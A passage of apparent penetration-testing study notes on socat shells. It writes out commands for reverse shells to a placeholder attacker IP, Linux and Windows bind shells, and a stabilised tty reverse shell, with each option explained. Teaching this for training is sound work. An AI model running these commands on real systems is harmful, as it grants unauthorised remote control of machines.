 ```ZSH
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```

> Bind Shells

* On a Linux target we would use the following command:

```ZSH
socat TCP-L:<PORT> EXEC:"bash -li"
```

* On a Windows target we would use this command for our listener:

```ZSH
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

* We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.
* Regardless of the target, we use this command on our attacking machine to connect to the waiting listener.

```ZSH
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

> Setting a Linux tty reverse shell

* Now let's take a look at one of the more powerful uses for Socat: a fully stable Linux tty reverse shell. This will only work when the target is Linux, but is significantly more stable. As mentioned earlier, socat is an incredibly versatile tool; however, the following technique is perhaps one of its most useful applications. Here is the new listener syntax:

```ZSH
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```

* Let's break this command down into its two parts. As usual, we're connecting two points together. In this case those points are a listening port, and a file. Specifically, we are passing in the current TTY as a file and setting the echo to be zero. This is approximately equivalent to using the `Ctrl + Z`, `stty raw -echo; fg` trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty.
* The first listener can be connected to with any payload; however, this special listener must be activated with a very specific socat command. This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a [precompiled socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true), which can then be executed as normal.

The special command is as follows:

```ZSH
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

* The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with  EXEC:"bash -li". We're also passing the arguments: pty, stderr, sigint, setsid and sane:
* pty, allocates a pseudoterminal on the target -- part of the stabilization process
* stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
* sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
* setsid, creates the process in a new session
* sane, stabilizes the terminal, attempting to "normalize" it.
